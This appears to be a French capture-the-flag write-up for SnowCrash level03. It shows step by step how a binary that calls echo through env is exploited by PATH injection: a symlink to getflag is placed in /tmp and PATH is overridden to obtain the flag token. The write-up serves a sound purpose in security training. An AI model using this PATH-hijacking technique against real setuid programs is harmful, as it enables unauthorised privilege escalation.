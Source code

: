 # Level03

Le binaire dans le home nous incite à l'exploiter !

```bash
level03@SnowCrash:~$ ./level03 
Exploit me
```

Regardons de plus près avec strings

```bash
level03@SnowCrash:~$ strings ./level03 
...
/usr/bin/env echo Exploit me
...
```

Le programme semble utiliser un chemin relatif dependant du PATH, ce qui peut permettre une PATH injection

Nous créons un lien symbolique vers getflag pour duper le programme
```bash
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
```

L'injection:

```
level03@SnowCrash:~$ PATH=/tmp ./level03 
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```
